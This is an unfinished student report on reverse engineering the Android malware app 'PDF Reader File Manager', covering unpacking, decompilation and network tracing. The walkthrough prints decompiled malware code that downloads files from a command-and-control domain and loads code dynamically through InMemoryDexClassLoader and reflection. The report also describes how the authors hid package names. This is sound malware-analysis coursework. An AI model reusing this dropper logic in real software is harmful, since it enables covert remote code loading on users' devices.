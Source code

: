 ```yaml
---
geometry: margin=25mm
title: RE - PDF Manager
author: Tiago Silvestre - 103554, David Araújo - 93444
date: March 8, 2024
---
```


# Table of Contents
1. [Introduction](#introduction)
2. [Environment and Tools](#environment-and-tools)
3. [Exploration Steps](#exploration-steps)
4. [Conclusions](#conclusions) 

# Introduction

For our reverse engineering course, we have decided to analyze and reverse engineer the "PDF Reader File Manager" application, which was known for being removed from the Play Store earlier this year. It was developed to steal data from Android users, as explained in this article [here](https://www.tomsguide.com/computing/malware-adware/these-malicious-android-malware-apps-were-downloaded-150000-times-from-the-play-store-delete-them-right-now).

# Environment and Tools

## Environment
To explore this application, we first focused on using a **secure environment** where we could ensure that the finding **wouldn't harm** the host system, and prevent the **system from tainting** any of the possible findings.

We used Vagrant to setup a [Kali box](https://app.vagrantup.com/kalilinux/boxes/rolling) where we could import the provided raw files for evaluation. Also [REMnux Docker container](https://docs.remnux.org/install-distro/remnux-as-a-container) was used for further forensic exploration.

## Tools

[TODO]

# Exploration Steps & Findings

## Unpack

Unziping the file with `7za PDF_Reader_File_Manager.zip` results in the files and directory shown bellow.

![From the zip archive](./imgs/Screenshot%20from%202024-03-08%2017-30-10.png)

With a little investigation we can discover that XAPK files are just a bundle of an APKs with other files. To retrieve these we can again use `7za` and run it with the XAPK file. E now have multiple APKs, a PNG and a JSON file.

![Extracted files](./imgs/Screenshot%20from%202024-03-05%2000-41-49.png)

When trying to run `apktool d 1.apk` or `jadx -d out 1.apk`, we are confronted with some error. This does not happen with any other APK, so inspecting the file signatures, e can find out that **1.apk is not actually an APK** file.

![APK files signatures](./imgs/Screenshot%20from%202024-03-08%2017-40-55.png)

Indeed, if we try to unzip the file, we are able to retrieve multiple files.

![Inside the 1.apk](./imgs/Screenshot%20from%202024-03-08%2017-45-52.png)

## Decompiling

We now have a large set of files from the application, however, many of then are not relevant for what we are trying to achieve and can blur our view over the whole of the application. 

From all of the APKs found, e first focus on the _com.tragisoap.fileandpdfmanager.apk_ has it probably is the main application, and if anything malicious is to happen, it should first come from here.

Using `apktool`, we can expose the the inner contents of the bundle. To do this we can use the following command:

```bash
apktool d -r -s com.tragisoap.fileandpdfmanager.apk
```

From this, the most important file is the _classes.dex_ file, from which we can reassemble the Java class files. To do this we can use `jadx` with the command:

```bash
jadx -d out classes.dex
```

## Walkthrough

### Exploring Application External Accesses

Given that the application contains malware, it's probable that at some point it downloads additional files from external services. We decided to search the codebase for URLs in the 'https://' format. And we found the following Java function.

```
    public static void a() {
        String str;
        y4.p pVar = new y4.p();
        r.a aVar = new r.a();
        aVar.c("https://befukiv.com/muchaspuchas");
        y4.r a7 = aVar.a();
        r.a aVar2 = new r.a();
        aVar2.c("https://befukiv.com/cortina");
        y4.r a8 = aVar2.a();
        try {
            y4.t tVar = new y4.d(pVar, a7).a().f6804g;
            byte[] b2 = tVar.b();
            y4.o e7 = tVar.e();
            Charset charset = z4.h.f6957c;
            if (e7 != null && (str = e7.f6764b) != null) {
                charset = Charset.forName(str);
            }
            f3837g.set(new String(b2, charset.name()).split("\\|"));
            byte[] b7 = new y4.d(pVar, a8).a().f6804g.b();
            if (f3839i.get()) {
                return;
            }
            f3838h.getClass();
            g6.i.h(b7);
            f3839i.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

Although it's obfuscated, we can see that it's accessing files from the domain befukiv.com. A DNS search reveals that this domain has two name servers pointing to domains in Russia.

```
...
Registrant Email: http://whois.nicenic.net/?page=whoisform
Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
Name Server: NS1.ERANS.RU
Name Server: NS2.ERANS.RU
DNSSEC: unsigned
...
```

At the time this report is being written, the server is accessible, but the resources are not available (it returns a 'not found' response).

But we have access to these files as they were previously downloaded, so it's possible to continue our analysis.

### Exploring 'muchaspuchas' and 'cortina' files

'muchaspuchas' file is composed of what seems to be Java method or class names separated by the | character. The function where this file is being downloaded splits the file contents by the | character.

```
dalvik.system.InMemoryDexClassLoader|getClassLoader|loadClass|com.travisscott.pdf.MainLibrary|...
```

Given that information, we may assume that Java code is parsing these names and then calling them through reflection.

## Exploring readable files

We can see that inside function a() (obfuscated) a string is being splitted by '|' character. To make it more clear we did some deofuscation and achieved the following result

```
public static void fetchFilesAndProcess() {
        String str;
        Session session = new Session();
        HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
        getrequest.request("https://befukiv.com/muchaspuchas");
        HttpHandler call = getrequest.call();
        HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
        getrequest2.request("https://befukiv.com/cortina");
        HttpHandler call2 = getrequest2.call();
        try {
            ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
            byte[] parse = parseHttpResponseBody.parse();
            TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
            Charset charset = z4.h.utf8Charset;
            if (twoStrings != null && (str = twoStrings.secondStr) != null) {
                charset = Charset.forName(str);
            }
            muchasStrings.set(new String(parse, charset.name()).split("\\|"));
            byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
            if (fetchAndProcessCompleted.get()) {
                return;
            }
            fw.getClass();
            FileWriter.mapMuchasStringsToMethods(parse2);
            fetchAndProcessCompleted.set(true);
        } catch (Throwable th) {
            th.printStackTrace();
        }
    }
```

As we can see, the function is fetching the files and is then it maps 'muchaspuchas' strings into application methods.
This shows that authors wanted to obfuscate application method calls with reflection.


TODO
1. muchaspuchas maybe a CSV type file
2. Based on 1., we look for split functions.



Going through the _1.apk_ files, we encountered a package named "juw.khdqwmf.xftkgphgq.fhyu" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.
